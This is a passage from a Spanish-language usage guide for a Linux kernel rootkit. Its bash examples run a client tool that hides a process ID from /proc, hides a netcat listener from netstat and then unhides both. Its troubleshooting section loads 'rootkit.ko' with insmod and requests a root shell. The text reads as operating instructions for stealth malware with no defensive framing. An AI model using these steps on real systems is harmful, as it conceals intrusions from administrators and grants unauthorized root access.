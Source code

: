 ```bash
ls /proc/ | grep $PID          # No debería aparecer
ls /proc/ | grep Oculto       # Podría aparecer como "Oculto"

# 5. El proceso sigue ejecutándose
kill -0 $PID && echo "Proceso aún activo"

# 6. Desocultar y limpiar
./client --unhide-pid=$PID
kill $PID
```

#### Ejemplo 3: Ocultar Conexión de Red
```bash
# 1. Crear servidor en puerto específico
nc -l 7777 &
NC_PID=$!

# 2. Verificar conexión
netstat -tuln | grep 7777

# 3. Ocultar la conexión
./client --hide-connection=7777

# 4. Verificar ocultamiento
netstat -tuln | grep 7777     # No debería aparecer
cat /proc/net/tcp | grep Oculto  # Podría mostrar "Oculto"

# 5. La conexión sigue funcionando
# En otra terminal: echo "test" | nc localhost 7777

# 6. Limpiar
./client --unhide-connection=7777
kill $NC_PID
```

---

### Solución de Problemas

#### Problema: "Permission denied"
```bash
# Solución: Usar sudo
sudo insmod rootkit.ko
sudo ./client --root-shell
```

#### Problema: "Module not found"
```bash
# Verificar compilación
ls -la *.ko
make clean && make

# Verificar permisos
chmod +x client
```
